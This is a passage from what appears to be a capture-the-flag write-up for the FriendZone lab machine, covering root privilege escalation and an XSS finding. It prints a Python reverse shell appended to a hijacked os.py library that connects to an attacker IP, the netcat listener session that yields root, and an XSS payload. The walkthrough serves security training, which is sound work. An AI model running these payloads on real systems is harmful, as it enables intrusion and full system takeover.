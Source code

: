 However, we need to first find out if /opt/server_admin/reporter.py is being executed as a background process. We will use pspy64s to observer the background processes that is taking place. Fortunately, /opt/server_admin/reporter.py is being executed in the background. We also realize that this process is being execcuted with a UID of 0, which means that this process is being executed by root. 

```
2022/03/13 04:13:12 CMD: UID=0    PID=1      | /sbin/init splash 
2022/03/13 04:14:01 CMD: UID=0    PID=44640  | /usr/sbin/CRON -f 
2022/03/13 04:14:01 CMD: UID=0    PID=44642  | /usr/bin/python /opt/server_admin/reporter.py 
2022/03/13 04:14:01 CMD: UID=0    PID=44641  | /bin/sh -c /opt/server_admin/reporter.py 
```

With that information, we will now modify our /usr/lib/python2.7/os.py file to create our reverse shell. We can do so by adding the following lines of code at the end of the file

```
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.3",5000));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/bash");
```

Afterwards, the reverse shell will be spawned with root privileges.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 5000         
listening on [any] 5000 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.123] 41090
root@FriendZone:~# whoami
whoami
root
root@FriendZone:~# 
```

### Obtaining root flag
```
root@FriendZone:~# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
```

## Post-Exploitation
### XSS on dashboard.php
Looking at the source code for dashboard.php, we realize that the site is also vulnerable to XSS attack. If we supply the image_id parameter to become ```' onerror='alert(document.domain)'```. 

```
 $image = $_GET["image_id"];
 echo "<center><img src='images/$image'></center>";
```
